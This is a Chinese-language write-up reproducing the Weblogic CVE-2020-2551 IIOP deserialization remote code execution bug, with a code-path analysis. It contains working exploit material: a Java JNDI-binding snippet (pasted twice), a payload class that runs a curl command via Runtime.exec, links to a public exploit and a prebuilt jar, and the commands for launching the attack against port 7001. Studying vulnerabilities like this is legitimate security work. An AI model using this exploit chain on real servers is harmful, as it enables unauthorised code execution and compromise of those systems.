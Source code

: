 

（CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
-----------------------------------------------------------

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);
    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId25.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId26.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId27.png)

然后通过反射调用**JtaTransactionManager**的\*\*readObject()\*\*跟进

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId28.png)

到此之后就是Weblogic的CVE-2018-3191 spring
JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId29.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId30.png)

此时\*\*lookup()\*\*参数可控

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId31.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

    https://github.com/ianxtianxt/CVE-2020-2551

**打包好的jar包**

    https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

    package payload;
    
    import java.io.IOException;
    
    public class exp {
    
        public exp() {
            String cmd = "curl http://172.16.1.1/success";
            try {
                Runtime.getRuntime().exec(cmd).getInputStream();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

    python -m http.server --bind 0.0.0.0 80

命令行运行jar包

    java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp

实际效果如图

![](./resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId33.gif)

参考链接
--------

> https://y4er.com/post/weblogic-cve-2020-2551/
